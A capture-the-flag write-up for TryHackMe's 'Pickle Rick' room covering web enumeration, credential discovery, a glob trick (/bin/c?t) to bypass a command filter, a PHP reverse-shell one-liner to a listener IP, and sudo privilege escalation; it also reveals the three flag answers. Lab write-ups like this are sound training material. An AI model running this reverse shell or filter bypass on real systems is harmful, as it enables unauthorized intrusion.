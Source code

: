 # Writeup Pickle Rick challenge (THM)

![logo_machine](https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg)

The following challenge is hosted by TryHackMe and aims at exploiting a web server in order to find three ingredients in order to help Rick, who wants to create a potion.
Let's begin.

## Target enumeration

As usual, we start analyzing the target by launching *nmap* command:
```
nmap -sV -A -T4 10.10.38.165 -oN nmap.txt
```
As a result we obtain that ports 22 (ssh) and 80 (http) are open.

Let's examine the website.

## Website

Inspecting the source code, we immediately find this comment:

*Note to self, remember username! Username: R1ckRul3s*

So, we jot down the username *R1ckRul3s*.

In the */robots.txt* page we find a mysterious string, i.e.: *Wubbalubbadubdub*.

If we try to connect to port 22 (ssh) using as username R1ckRul3s and as password Wubbalubbadubdub doesn't work (permission denied), so we need to discover where these credentials can be used.
So, we launch *gobuster* in order to discover other potential paths, we the following command (note the *x* option, where we look for files with php extension, too):

```
gobuster -w <path/to/wordlist/>directory-list-2.3-small.txt -u http://<target_ip>/ -t 20 -x php
```

As a result we obtain these paths:

* /login.php (Status: 200)
* /assets (Status: 301)
* /portal.php (Status: 302)


Yep! We found the place to insert the above-mentioned credentials: *login.php*.

![img3](/images/pickle_rick-thm/img3.png?raw=true)


## First ingredient

Once logged in, we land in a web page with a menu with some options on the top. The most interesting tab is *Commands*. Indeed, here we can find an input form, where we can run shell commands.

For example, if we type the ```ls``` command, we can get the following results:
* **Sup3rS3cretPickl3Ingred.txt**
* assets
* clue.txt
* denied.php
* index.html
* login.php
* portal.php
* robots.txt

* we need to cat Sup3rS3cretPickl3Ingred.txt file but a filter is placed

![img4](/images/pickle_rick-thm/img4.png?raw=true)


* bypass it using the following command

```
/bin/c?t Sup3rS3cretPickl3Ingred.txt
```

![img5](/images/pickle_rick-thm/img5.png?raw=true):


first flag found: mr. meeseek hair

## Second ingredient

* read *clue.txt* file with ```/bin/c?t clue.txt``` and it states:
*Look around the file system for the other ingredient.*

* in */home/rick* there is *second ingredients* file (```ls -l /home/rick```)

* lets cat it: ```/bin/c?t "/home/rick/second ingredients"``` (fai reference a livello
  di bandit in cui spiego come si fa cat in file che contiene spazie nel nome)

  2nd ingredient: 1 jerry tear

## Third ingredient

* rev shell using php

![img6](/images/pickle_rick-thm/img6.png?raw=true):

```
php -r '$sock=fsockopen("10.8.12.35",1234);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

* cat php files in order to understand how to open other tabs in portal.php page

* use ```sudo -l``` to priv esc, result:
```
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-100-151.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-100-151.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
so all the commands can be run by www-data

* then:

![img7](/images/pickle_rick-thm/img7.png?raw=true)

3rd ingredient: fleeb juice
